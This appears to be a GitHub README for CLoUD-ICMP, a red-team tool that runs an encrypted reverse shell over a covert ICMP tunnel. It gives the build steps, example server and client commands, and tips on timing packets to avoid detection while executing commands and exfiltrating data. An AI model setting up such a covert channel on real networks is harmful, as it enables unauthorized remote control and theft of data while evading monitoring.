



<h1 align="center">CLoUD-ICMP</h1>
<p align="center">
<i> 🔥 providing an encrypted reverse shell channel over ICMP packets 🔥  </i>
</p>
  
<p align="center">
  
  
## 👤 Author :

- GitHub : [@TheLxxCLoUD](https://github.com/The-Lxx-CLoUD)
- Telegram : [@lxxcloud](https://t.me/lxxcloud)

##  📃 Explanation : 
```text
⚠️ CLoUD-ICMP Establishes a "reverse shell" from the server to the client via a covert ICMP-based tunnel ⚠️

CLoUD-ICMP is designed for red team interactions and penetration testing scenarios.

In cases where regular network channels may be monitored or restricted
it operates as a completely standalone application with no external dependencies
leveraging only the standard Go and C++ libraries.
```

## ✅ Features :
```text
1️⃣:
ICMP Client/Server Reverse Shell Mode: 
Enables secure, bidirectional communication via ICMP for command execution and data exfiltration.

2️⃣:
AES-Encrypted Payloads: 
Supports configurable secret keys or auto-generated keys
 for robust encryption.

3️⃣:
HMAC-Authenticate Payloads:
Payloads are authenticated with HMAC (SHA-256)
to ensure integrity and origin, preventing tampering and spoofing.
```

## 📩 Installation steps : 
- 1️⃣ Installing the repository :
```bash
git clone https://github.com/The-Lxx-CLoUD/CLoUD-ICMP
```

- 2️⃣ Entering the repository :
```bash
cd CLoUD-ICMP
```

- 3️⃣ GO installation :
```bash
sudo apt install gccgo-go && sudo apt install golang-go
```
- 4️⃣ Disable ICMP echo responses :

`it's recommended to disable system ICMP echo` 

```bash
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
```
- 5️⃣ Dependency sorting :
```bash
go mod tidy
```
- 6️⃣ Build the go binary :
```bash
go build -trimpath -ldflags="-s -w"
```
- 7️⃣ Now You have correctly implemented this tool 🎉


<h1 align="center"> 🖥️ Tool text interface 🖥️ </h1>

### Show Help :  
`Use the following command to view the help ⬇️ `
```bash
sudo ./CLoUD-ICMP -h
```
<p align="center">
  
  
### Runing :
`How to run it ? ⬇️ `
```bash
1️⃣ set tool in server
2️⃣ set tool in client
```
##

## ⚠️ Set Tool in Server :
```bash
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

```bash
./CLoUD-ICMP -i 1️⃣ -t 2️⃣ -s -p "3️⃣"
```
- 1️⃣ = Interface IP to listen on
- 2️⃣ = `Target address` to establish tunnel 
- 3️⃣ = Your Secret Key For Connect

✅ `example : ./CLoUD-ICMP -i 0.0.0.0 -t 192.168.1.101 -s -p "mypass90code"` ✅

## ⚠️ Set Tool in Client :
```bash
./CLoUD-ICMP -i 1️⃣ -t 2️⃣ -p "3️⃣"
```
- 1️⃣ = Interface IP to listen on
- 2️⃣ = `server address` to establish tunnel 
- 3️⃣ = Your Secret Key For Connect

✅ `example : ./CLoUD-ICMP -i 0.0.0.0 -t 192.168.1.119 -p "mypass90code" ` ✅

<h1 align="center">  ⬇️ Please view the photo for a better understanding ⬇️ </h1>
<p align="center">
  
  
###
  
## ⚡ Suggestion :
```bash
When connecting to the client
You can decrease the latency rate.
(The interval between sending a request and receiving a response)
⚠️ But the probability of being detected increases ⚠️
With this option, ICMP packets are sent at the selected time interval.
```
```bash
You can only apply the sleep settings 
while you are connected to the client.
```
<p align="center">
  
  
- At `sleep 10` = every 10 seconds
- At `sleep 5` = every 5 seconds
- At `sleep 3` = every 3 seconds


<h1 align="center">🧑‍💻 Final Demo 🧑‍💻</h1>

<p align="center">
  

  
  ## 👤 Author :

- GitHub : [@TheLxxCLoUD](https://github.com/The-Lxx-CLoUD)
- Telegram : [@lxxcloud](https://t.me/lxxcloud)

